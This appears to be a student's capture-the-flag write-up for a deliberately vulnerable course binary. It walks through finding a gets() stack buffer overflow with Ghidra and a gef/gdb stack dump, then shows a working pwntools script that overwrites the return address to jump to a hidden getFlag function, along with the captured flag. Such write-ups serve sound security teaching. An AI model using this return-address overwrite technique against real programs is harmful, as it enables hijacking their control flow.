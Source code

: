 judging from the description, that gives me the dimensions of the buffer, i concur that i must perform a buffer overflow.

i used ghidra to understand the inner workings of the binary and to look for hidden functions.
i saw that the buffer is 16 char wide and that there's a "getFlag" function that i might want to execute, so the return address of main() must be overwritten with the address of "getFlag".

i used gdb to see the dimensions of the stack in order to undestand how much "padding" to send to write the "getFlag" address in the correct place

```
gef➤  disass main
Dump of assembler code for function main:
   0x000000000040064e <+0>:	push   rbp
   0x000000000040064f <+1>:	mov    rbp,rsp
   0x0000000000400652 <+4>:	sub    rsp,0x20
   0x0000000000400656 <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040065d <+15>:	lea    rdi,[rip+0xe0]        # 0x400744
   0x0000000000400664 <+22>:	call   0x4004a0 <puts@plt>
   0x0000000000400669 <+27>:	lea    rax,[rbp-0x20]
   0x000000000040066d <+31>:	mov    rdi,rax
   0x0000000000400670 <+34>:	mov    eax,0x0
   0x0000000000400675 <+39>:	call   0x4004c0 <gets@plt>
   0x000000000040067a <+44>:	lea    rax,[rbp-0x20]
   0x000000000040067e <+48>:	lea    rsi,[rip+0xd5]        # 0x40075a
   0x0000000000400685 <+55>:	mov    rdi,rax
   0x0000000000400688 <+58>:	call   0x4004b0 <strcmp@plt>
   0x000000000040068d <+63>:	test   eax,eax
   0x000000000040068f <+65>:	je     0x40069f <main+81>
   0x0000000000400691 <+67>:	lea    rdi,[rip+0xcf]        # 0x400767
   0x0000000000400698 <+74>:	call   0x4004a0 <puts@plt>
   0x000000000040069d <+79>:	jmp    0x4006ab <main+93>
   0x000000000040069f <+81>:	lea    rdi,[rip+0xd2]        # 0x400778
   0x00000000004006a6 <+88>:	call   0x4004a0 <puts@plt>
   0x00000000004006ab <+93>:	mov    eax,0x0
   0x00000000004006b0 <+98>:	leave  
   0x00000000004006b1 <+99>:	ret    
End of assembler dump.
gef➤  b*0x00000000004006ab
Breakpoint 1 at 0x4006ab: file bof.c, line 34.
gef➤  r
Starting program: /home/locale/2017/cyber053/students/easy_bof/easy_bof 
Enter the password : 
AAAAAAAAAAAAAAAA

Wrong Password 

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x11              
$rbx   : 0x0               
$rcx   : 0x00007ffff7af2104  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007ffff7dcf8c0  →  0x0000000000000000
$rsp   : 0x00007fffffffe100  →  "AAAAAAAAAAAAAAAA"
$rbp   : 0x00007fffffffe120  →  0x00000000004006c0  →  <__libc_csu_init+0> push r15
$rsi   : 0x0000000000602260  →  "Wrong Password \nrd : \n"
$rdi   : 0x1               
$rip   : 0x00000000004006ab  →  <main+93> mov eax, 0x0
$r8    : 0x0               
$r9    : 0x00007ffff7fb64c0  →  0x00007ffff7fb64c0  →  [loop detected]
$r10   : 0x3               
$r11   : 0x246             
$r12   : 0x00000000004004e0  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe200  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe100│+0x0000: "AAAAAAAAAAAAAAAA"	 ← $rsp
0x00007fffffffe108│+0x0008: "AAAAAAAA"
0x00007fffffffe110│+0x0010: 0x00007fffffffe200  →  0x0000000000000001
0x00007fffffffe118│+0x0018: 0x0000000000000000
0x00007fffffffe120│+0x0020: 0x00000000004006c0  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe128│+0x0028: 0x00007ffff7a03c87  →  <__libc_start_main+231> mov edi, eax
0x00007fffffffe130│+0x0030: 0x0000000000000001
0x00007fffffffe138│+0x0038: 0x00007fffffffe208  →  0x00007fffffffe5e3  →  "/home/locale/2017/cyber053/students/easy_bof/easy_[...]"
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069d <main+79>        jmp    0x4006ab <main+93>
     0x40069f <main+81>        lea    rdi, [rip+0xd2]        # 0x400778
     0x4006a6 <main+88>        call   0x4004a0 <puts@plt>
 →   0x4006ab <main+93>        mov    eax, 0x0
     0x4006b0 <main+98>        leave  
     0x4006b1 <main+99>        ret    
     0x4006b2                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006bc                  nop    DWORD PTR [rax+0x0]
     0x4006c0 <__libc_csu_init+0> push   r15
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "easy_bof", stopped 0x4006ab in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006ab → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, main () at bof.c:34
34	bof.c: No such file or directory.
gef➤  info frame
Stack level 0, frame at 0x7fffffffe130:
 rip = 0x4006ab in main (bof.c:34); saved rip = 0x7ffff7a03c87
 source language c.
 Arglist at 0x7fffffffe120, args: 
 Locals at 0x7fffffffe120, Previous frame's sp is 0x7fffffffe130
 Saved registers:
  rbp at 0x7fffffffe120, rip at 0x7fffffffe128
gef➤  x/100x $sp
0x7fffffffe100:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe110:	0xffffe200	0x00007fff	0x00000000	0x00000000
0x7fffffffe120:	0x004006c0	0x00000000	0xf7a03c87	0x00007fff
0x7fffffffe130:	0x00000001	0x00000000	0xffffe208	0x00007fff
0x7fffffffe140:	0x00008000	0x00000001	0x0040064e	0x00000000
0x7fffffffe150:	0x00000000	0x00000000	0x44a809fa	0x532400fc
0x7fffffffe160:	0x004004e0	0x00000000	0xffffe200	0x00007fff
0x7fffffffe170:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe180:	0x8b4809fa	0xacdbff83	0x315609fa	0xacdbef3c
0x7fffffffe190:	0x00000000	0x00007fff	0x00000000	0x00000000
0x7fffffffe1a0:	0x00000000	0x00000000	0xf7de38d3	0x00007fff
0x7fffffffe1b0:	0xf7dc9638	0x00007fff	0x2546309a	0x00000000
0x7fffffffe1c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe1d0:	0x00000000	0x00000000	0x004004e0	0x00000000
0x7fffffffe1e0:	0xffffe200	0x00007fff	0x0040050a	0x00000000
0x7fffffffe1f0:	0xffffe1f8	0x00007fff	0x0000001c	0x00000000
0x7fffffffe200:	0x00000001	0x00000000	0xffffe5e3	0x00007fff
0x7fffffffe210:	0x00000000	0x00000000	0xffffe619	0x00007fff
0x7fffffffe220:	0xffffe62f	0x00007fff	0xffffe63d	0x00007fff
0x7fffffffe230:	0xffffe660	0x00007fff	0xffffe67b	0x00007fff
0x7fffffffe240:	0xffffe690	0x00007fff	0xffffe6ce	0x00007fff
0x7fffffffe250:	0xffffe6e6	0x00007fff	0xffffe6fd	0x00007fff
0x7fffffffe260:	0xffffe70c	0x00007fff	0xffffe71d	0x00007fff
0x7fffffffe270:	0xffffe728	0x00007fff	0xffffe74e	0x00007fff
0x7fffffffe280:	0xffffe76e	0x00007fff	0xffffe782	0x00007fff
gef➤  
```

so i need to send 24 bytes of padding (i know that the saved rip contains "0x7ffff7a03c87" and i simply counted the blocks from the last "0x41414141" (last A in the buffer) to the rip), after filling the 16 byte buffer.

After decompiling the program i can also see that it prints "correct password" if the first characters of the string equal to "thegeekstuff" but this doens't change the beaviour of the executable and just the first line of the binary's output.
i decided not to include that on the script (out of laziness mostly).

i created a python script to send the correct input:

```python
import pwn

p = pwn.process("./easy_bof")
elf = pwn.ELF("./easy_bof")

p.sendline(b"A"*(16+24)+pwn.p64(elf.symbols["getFlag"]))
p.interactive()
```
the flag is:
```
[*] Process './easy_bof' stopped with exit code 0 (pid 15760)
Enter the password : 

Wrong Password 
Congratz! You win the flag: spritz{bof_for_fun_and_profit?}
```

p.interactive() is needed to display the flag, wihtout it the program's output wasn't displayed correctly
